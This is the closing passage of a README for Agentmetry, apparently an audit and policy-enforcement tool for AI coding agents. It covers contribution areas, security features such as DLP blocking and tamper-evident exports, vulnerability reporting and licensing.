See **[docs/advanced-governed-runtime.md](docs/advanced-governed-runtime.md)** for when to use hook JSONL vs vault skills, and how to avoid mixing compliance narratives.

---

## Contributing

Agentmetry welcomes contributions across detection rules, DLP patterns, SIEM adapters, and dashboard UX.

| Area | Start here |
| ---- | ---------- |
| Hook adapters | [docs/agentmetry-external-ingest.md](docs/agentmetry-external-ingest.md) |
| Framework adapters | [adapters/crewai/](adapters/crewai/) |
| Event schema | [docs/agentmetry-event-schema.md](docs/agentmetry-event-schema.md) |
| Detection rules | `apps/orchestrator/core/audit/detection/rules.py` |
| DLP rules | `policies/dlp/manifest.yaml` |
| Sigma pack | [docs/integrations/sigma/README.md](docs/integrations/sigma/README.md) |
| Roadmap | [ROADMAP.md](ROADMAP.md) |

Run tests before opening a PR — see [CONTRIBUTING.md](CONTRIBUTING.md). **All PRs require a signed [CLA](CLA.md)** (v1.0).

---

## Security

Agentmetry is designed for security-sensitive environments:

- **Local-first** — audit data stays on your machine unless you configure forwarders
- **Argument hashing by default** — plaintext tool args never leave the hook process
- **Optional API key** — protect ingest/tail/export endpoints with `AGENTMETRY_API_KEY`
- **Hook enforcement (opt-in)** — DLP and tool policy can deny matching tools/secrets at the IDE boundary when set to `block` mode
- **Tamper-evident exports** — evidence packs include SHA-256 integrity hashes

Report vulnerabilities via GitHub [private vulnerability reporting](https://github.com/blitzcrieg1/agentmetry/security/advisories/new) (Security → Report a vulnerability). Do not open a public issue for security findings. See [SECURITY.md](SECURITY.md).

Compliance docs → [docs/compliance/](docs/compliance/)

---

## License

Apache-2.0 — Copyright 2026 blitzcrieg1. See [LICENSE](LICENSE) and [NOTICE](NOTICE).

Contributors sign the [Individual CLA (v1.0)](CLA.md); companies use [CCLA.md](CCLA.md).
Trademark policy: [TRADEMARK.md](TRADEMARK.md). Commercial intent (non-binding):
[COMMERCIAL.md](COMMERCIAL.md).

---

## Maintainer

Built and maintained by Ioannis L. — connect on [LinkedIn](https://www.linkedin.com/in/ioannis-l-074439194/).
